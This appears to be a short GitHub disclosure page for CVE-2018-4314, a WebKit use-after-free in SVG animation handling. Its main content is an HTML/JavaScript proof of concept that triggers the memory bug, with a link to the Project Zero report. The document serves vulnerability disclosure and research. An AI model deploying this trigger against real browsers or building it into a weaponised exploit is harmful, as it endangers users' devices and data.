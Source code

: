 # CVE-2018-4314
* Date : June 2018
* Credit : ifratic

## Description
Use-after-free in SVGAnimateElementBase::resetAnimatedType of Webkit

## PoC
```html
<script>
function eventhandler2() {
try { var var00138 = svgvar00013.parentNode; } catch(e) { }
try { htmlvar00006.setAttribute("onfocusin", "eventhandler2()"); } catch(e) { }
try { svgvar00001.after(var00138); } catch(e) { }
}
function eventhandler5() {
try { htmlvar00028.autofocus = true; } catch(e) { }
try { htmlvar00034.appendChild(htmlvar00006); } catch(e) { }
}
</script>
<h5 id="htmlvar00006">
<keygen id="htmlvar00028">
</h5>
<a id="htmlvar00034">
<svg id="svgvar00001">
<g onload="eventhandler2()"></g>
<animate attributeName="fill" />
<polygon id="svgvar00013" />
<br>
<details ontoggle="eventhandler5()" open="true"></details>
```

## Reference
[P0 issue 1596](https://bugs.chromium.org/p/project-zero/issues/detail?id=1596)